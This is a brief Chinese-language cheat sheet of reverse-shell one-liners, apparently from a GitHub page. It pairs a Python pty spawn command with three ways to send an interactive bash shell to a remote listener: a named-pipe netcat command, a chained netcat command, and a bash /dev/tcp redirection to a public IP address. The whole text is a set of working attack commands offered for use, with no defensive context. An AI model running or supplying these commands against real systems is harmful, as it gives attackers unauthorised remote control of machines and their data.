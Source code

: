 python fork 一个shell 
```
python -c "import pty;pty.spawn('/bin/bash')" 
```
在没有-e参数的情况下通过命名管道反弹shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 192.168.1.106 3333 > /tmp/f  
```
在没有-e参数的情况下nc串联反弹shell
```
nc 192.168.1.109 3333 | /bin/bash | nc 192.168.1.109 4444 
```
```
bash -c 'bash -i >& /dev/tcp/106.52.193.41/88 0>&1'
```
